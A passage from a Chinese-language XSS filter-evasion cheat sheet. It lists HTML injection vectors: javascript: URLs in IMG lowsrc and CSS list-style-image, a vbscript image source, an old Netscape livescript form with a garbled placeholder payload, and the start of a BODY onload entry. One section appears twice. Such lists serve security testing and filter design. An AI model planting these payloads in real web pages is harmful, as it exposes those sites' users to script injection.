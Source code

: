 * * *

IMG lowsrc（低分辨率图片）
------------------

```
<IMG LOWSRC="javascript:alert('XSS')">

```

* * *

List-style-image
----------------

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

```

* * *

List-style-image
----------------

为带有符号的列表嵌入自定义图片的符号。它是只能工作在ie渲染引擎因为javascript指令。这不是一个特别有用的xss向量。

```
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

```

* * *

VBscript in an image
--------------------

```
<IMG SRC='vbscript:msgbox("XSS")'>

```

* * *

Livescript (仅适用于老版本的Netscape)
-----------------------------

```
<IMG SRC="livescript:[code][/code]">

```

* * *

BODY 标签
-------

这个方法不需要使用任何"javascript:" or "`<SCRIPT...`" 的变体去实现xss攻击。Dan Crowley特别指出你可以额外的加入一个空格在等号之前("onload=" != "onload ="):
